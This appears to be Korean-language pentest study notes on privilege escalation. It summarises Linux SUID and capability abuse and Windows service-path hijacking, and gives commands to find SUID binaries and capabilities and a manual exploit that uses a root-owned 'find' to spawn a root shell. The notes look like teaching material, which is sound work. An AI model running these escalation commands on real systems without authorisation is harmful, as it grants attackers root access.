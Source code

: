 
# 🧒 어린이 요약

- 리눅스: **sudo나 특이한 파일**을 잘 보면 root가 될 수 있어!
- 윈도우: **서비스 실행 위치**가 바보처럼 열려 있으면, 내 파일로 바꿔서 SYSTEM이 실행해줘!
- **중요한 건 자동 도구 쓰지 않고**, 내가 직접 보고 실행하는 거야.

---

# 🐧 리눅스 권한 상승 시나리오별 정리

---

## 🧩 \[1] SUID 바이너리

### ✅ 개념

- SUID(SetUID): 해당 바이너리를 실행할 때, **소유자의 권한으로 실행됨**
- 루트 소유의 SUID 바이너리가 있으면 일반 사용자도 **루트 권한 명령 실행 가능**

### 🔍 탐지

```bash
find / -perm -4000 -type f 2>/dev/null
```

### 🛠 시나리오

```bash
-rwsr-xr-x 1 root root 123456 /usr/bin/find
```

### 💣 수동 익스플로잇

```bash
/usr/bin/find . -exec /bin/sh \; -quit
whoami  # root
```

---

## 🧩 \[2] Capabilities

### ✅ 개념

- 리눅스에서 SUID 없이도 특정 권한 부여 가능 (`cap_setuid`, `cap_net_raw` 등)

### 🔍 탐지

```bash
getcap -r / 2>/dev/null
```
